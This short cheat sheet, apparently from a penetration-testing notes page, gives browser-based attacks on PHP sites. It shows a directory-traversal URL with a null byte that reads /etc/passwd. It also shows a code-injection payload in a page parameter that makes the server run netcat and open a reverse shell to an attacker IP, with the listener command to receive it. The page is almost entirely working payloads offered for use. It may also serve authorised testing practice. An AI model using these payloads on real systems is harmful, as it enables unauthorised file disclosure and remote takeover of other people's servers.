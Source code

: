 ## Hacks for in the browser

To attempt to view the /etc/passwd file </b>
`http://host/index.php?page=./../../../../../etc/passwd%00`

---
# Obtaining Shell through Browser Bar (PHP)
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
